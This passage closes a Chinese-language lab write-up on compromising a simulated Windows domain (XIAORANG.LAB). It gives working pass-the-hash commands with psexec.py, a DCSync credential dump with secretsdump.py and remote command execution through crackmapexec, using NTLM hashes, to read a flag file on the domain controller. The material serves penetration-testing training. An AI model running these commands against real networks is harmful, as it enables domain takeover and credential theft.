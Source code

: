 ```plain
1103    XIAORANG-WIN7$  507797b66f76b8b71d20555b0c59f86d        4096
```

[![](assets/1709193375-d586f68d4c7123827063b2df5f321652.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240227205407-4b19dcca-d56f-1.png)

最后`hash传递`获取域控

```plain
proxychains psexec.py -dc-ip 172.22.1.2 -hashes :10cf89a850fb1cdbe6bb432b859164c8 XIAORANG.LAB/administrator@172.22.1.2
# 拓展 对 XIAORANG-WIN7$的凭证进行 dcsync
proxychains secretsdump.py XIAORANG-WIN7\$@172.22.1.2 -just-dc-user administrator -hashes :d4df8a3fa73a9fee14a62123784290c6
proxychains crackmapexec smb 172.22.1.2 -u administrator -H10cf89a850fb1cdbe6bb432b859164c8 -d xiaorang.lab -x "type Users\Administrator\flag\flag03.txt"
```

[![](assets/1709193375-4d5eece374d0d82c1041b263deab00be.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240227205411-4d95eb10-d56f-1.png)

最终拼接获取完整 flag，提交拿下靶标。

总：前前后后笔者也是陆续弄了几天，记录了模拟实战内网靶标的总结笔记，对内网知识有兴趣的伙伴可自行去复现一波。安全无止境，永远在路上。结，如若有误请联系笔者，大佬勿喷。
